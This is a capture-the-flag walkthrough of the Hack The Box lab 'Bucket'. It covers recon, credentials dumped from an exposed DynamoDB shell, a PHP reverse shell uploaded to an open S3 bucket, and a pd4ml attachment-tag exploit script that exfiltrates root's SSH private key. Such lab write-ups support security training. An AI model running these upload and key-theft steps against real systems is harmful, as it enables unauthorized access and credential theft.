


Bucket is a Linux machine. The ip of the box is 10.10.10.212.

# Recon

I starting with *nmap* scan `nmap -sC -Sv -oA nmap/bucket 10.10.10.212`




And i found:
- *ssh*
- *webserver apache*

And added `bucket.htb` in `/etc/hosts` file


I navigate on `http://bucket.htb` and got


In source of `http://bucket.htb/index.html` found `http://s3.bucket.htb/images/*` so i decide to add in `/etc/hosts` the host `s3.bucket.htb`.


I start enum

> gobuster dir -u s3.bucket.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o enum.txt

and found:

>/health
>/shell

On `http://s3.bucket.htb/health` found that two amazon services are running `s3` and `dynamodb`

 


While on `http://s3.bucket.htb/shell/` (need the final slash) found a dynamodb shell.



and i starting to query the db.

- **Search for existing tables**


and found only `users` table.


- **Describe table**


and found the columns `username` and `password`

- **Take values**


found three users:

>Mgmt:Management@#1@#
>Cloudadm:Welcome123!
>Sysadmin:n2vM-&lt\;_K_Q:.Aa2

For interact with `s3` bucket need to install [awscli](https://pypi.org/project/awscli/).

# User
Start enum the bucket 
>aws s3 ls s3://adserver --endpoint-url http://s3.bucket.htb --no-sign-request

and obtain
>/images
>/index.html

So i decid to upload a revshell
>aws s3 cp test.php s3://adserver  --endpoint-url http://s3.bucket.htb  --no-sign-request

and sync the bucket with the server

>aws s3  website s3://adserver --index-document index.html  --no-sign-request --endpoint-url http://s3.bucket.htb --no-sign-request


wait for sync on website and go on `http://bucket.htb/test.php/test.php` for obtain a revshell as `www-data`


there are only the user `roy` on the machine so i decide to try the different password found before


and the credential are
>**roy:n2vM-&lt\;_K_Q:.Aa2**


# Root

I start enum and find a open port on 8000 only in localhost


and in `/var/www/` there are two directories `bucket-app` and `html` and in config of `apache2`
i found thaht the `bucket-app` is running on port 8000 as root.

 

So i decide to examine `bucket-app` directory

 

and in `index.php` found this portion of code

```php
<?php                                                                                          
require 'vendor/autoload.php';                                                                 
use Aws\DynamoDb\DynamoDbClient;                                                                                                                                                              
if($_SERVER['REQUEST_METHOD']==='POST') {                                                      
        if($_POST['action']==='get_alerts') {                                                  
                date_default_timezone_set('America/New_York');                                 
                $client = new DynamoDbClient([                                                 
                        'profile' = 'default',                                                                                                                                               
                        'region'  = 'us-east-1',                                              
                        'version' = 'latest',                                                 
                        'endpoint'= 'http://localhost:4566'                                                    
                ]);                                                                            
                                                                                                                                                                                              
                $iterator = $client->getIterator('Scan', array(                                
                        'TableName' = 'alerts',                                                       
                        'FilterExpression' = 'title = :title',                                
                        'ExpressionAttributeValues' = array(':title'=array('S'=>'Ransomware')),                  
                ));                                                                                                       
                                                                                               
                foreach ($iterator as $item) {                                                 
                        $name=rand(1,10000).'.html';                                           
                        file_put_contents('files/'.$name,$item['data']);                       
                }                                                                              
                passthru('java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf');                             
        }                                                                                      
}         
```
The `pd4ml` is a tool for convert html in pdf and there is a [vulnerability](https://twitter.com/akhilreni_hs/status/1219666714033414144) with `<pd4ml:attachment>` tag, for exploit this vulnerability i need to create the table `alerts` in `dynamodb` and call the `index.php` page. For exploit the vul i used the following script (Create table and grab the ssh key). 


```js
var params = {
  AttributeDefinitions: [
    {
      AttributeName: 'title',
      AttributeType: 'S'
    },
    {
      AttributeName: 'data',
      AttributeType: 'S'
    }
  ],
  KeySchema: [
    {
      AttributeName: 'title',
      KeyType: 'HASH'
    },
    {
      AttributeName: 'data',
      KeyType: 'RANGE'
    },
  ],
  ProvisionedThroughput: {
    ReadCapacityUnits: 1,
    WriteCapacityUnits: 1
  },
  TableName: 'alerts'
};
dynamodb.createTable(params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response

});

// Waits for tables to be come ACTIVE.  
// Useful for waiting for table operations like CreateTable to complete. 
var params = {
    TableName: 'alerts',
};
// Supports 'tableExists' and 'tableNotExists'
dynamodb.waitFor('tableExists', params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response
});


var params = {
  TableName: 'alerts',
  Item: {
    'title' : 'Ransomware',
    'data': '<pd4ml:attachment> /root/.ssh/id_rsa </pd4ml:attachment>'
  }
};

docClient.put(params, function(err, data) {
    if (err) ppJson(err); // an error occurred
    else ppJson(data); // successful response
});
```
and send request with
>curl -X POST -d "action=get_alerts" 127.0.0.1:8000


and check in `files/` where there is the converted pdf `result.pdf` with the rsa key


now connect with `ssh` as root 


and grab the flag


